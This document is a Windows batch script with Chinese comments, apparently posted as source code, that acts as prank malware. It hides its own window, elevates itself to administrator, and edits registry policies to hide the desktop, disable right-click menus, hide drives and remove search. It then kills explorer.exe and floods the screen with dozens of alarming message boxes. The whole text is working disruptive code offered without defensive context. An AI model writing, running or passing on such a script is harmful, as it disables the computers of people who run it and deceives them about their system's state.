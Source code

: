 ::后台

if "%1"=="hide" goto CmdBegin
start mshta vbscript:createobject("wscript.shell").run("""%~0"" hide",0)(window.close)&&exit
:CmdBegin

::管理员模式

@ECHO OFF&(PUSHD "%~DP0")&(REG QUERY "HKU\S-1-5-19">NUL 2>&1)||(
powershell -Command "Start-Process '%~sdpnx0' -Verb RunAs"&&EXIT)

::是否警告过用户
IF EXIST run.bat (
	start 123.txt
    ) ELSE (
	echo @echo off > run.bat
	echo color 0c >> run.bat
	echo echo THIS is a virus file, do you want to run it? >> run.bat
	echo ^pause >> run.bat
	echo echo THIS IS THE LAST WANRING,do you really want to RUN it? >> run.bat
	echo ^pause >> run.bat
	echo start gift1.0.bat >> run.bat
	echo exit >> run.bat
	echo haha > 123.txt
	echo 
	echo you computer have in virus !!! >> 123.txt
	start run.bat
	exit
    )

del run.bat


::通知电脑废了

@echo off
(
	echo msgbox "Your computer is no longer functioning properly",16,"haha"
) > 123.vbs

start 123.vbs

echo %time%
ping -n 3 127.0.0.1>nul
echo %time%

::隐藏图标

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDesktop /t REG_DWORD /d 1 /f

::禁用右键

::桌面与文件夹
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewContextMenu /t REG_DWORD /d 1 /f

::任务栏
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoTrayContextMenu /t REG_DWORD /d 1 /f

::禁用磁盘

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 12 /f

::禁用搜索栏

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Explorer" /v DisableSearchBox /t REG_DWORD /d 1 /f

::禁用左侧栏

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer" /v SearchboxInNavBar /t REG_DWORD /d 0 /f

taskkill /f /im explorer.exe

::关闭vbs

taskkill -f -t -im wscript.exe

::vbs文件提出

@echo off
(
	echo msgbox "your computer is damage" ,16,"@_@"
) > your.vbs

@echo off
(
	echo msgbox "Do you have a problem with your computer or terminate the process?",50,"issue"
) > question.vbs

@echo off
(
	echo msgbox "I am a Windows computer, why are you messing me?",35,"windows"
) > windows.vbs

start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs

taskkill -f -t -im wscript.exe

start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs
start your.vbs

taskkill -f -t -im wscript.exe

start question.vbs

echo %time%
ping -n 3 127.0.0.1>nul
echo %time%

start your.vbs
start question.vbs
start question.vbs
start question.vbs
start question.vbs
start question.vbs
start question.vbs
start your.vbs
start question.vbs
start your.vbs
start question.vbs
start your.vbs
start question.vbs
start your.vbs
start question.vbs
start your.vbs
start question.vbs
start your.vbs

taskkill -f -t -im wscript.exe

start windows.vbs

echo %time%
ping -n 3 127.0.0.1>nul
echo %time%

start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
start windows.vbs
start your.vbs
start question.vbs
start your.vbs
exit

::@偷懒的猪 24.3.8
